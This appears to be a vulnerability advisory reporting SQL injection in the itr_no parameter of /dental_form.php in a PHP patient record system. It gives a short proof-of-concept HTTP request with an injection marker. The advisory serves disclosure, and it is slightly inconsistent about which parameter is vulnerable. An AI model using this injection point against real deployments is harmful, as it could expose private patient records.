 # cve# patient-record-management-system-in-php has sql injection in /dental_form.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/dental_form.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in /dental_form.php. The parameters that can be controlled are as follows: $a. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $_GET[itr\_no] parameter is obtained in /dental_form.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/437293af-736a-4ea6-af9e-2b13dde80017)



## POC

```
GET /dental_form.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

## submitter
姓名：杨鸿宇 单位：广州大学 导师：殷丽华
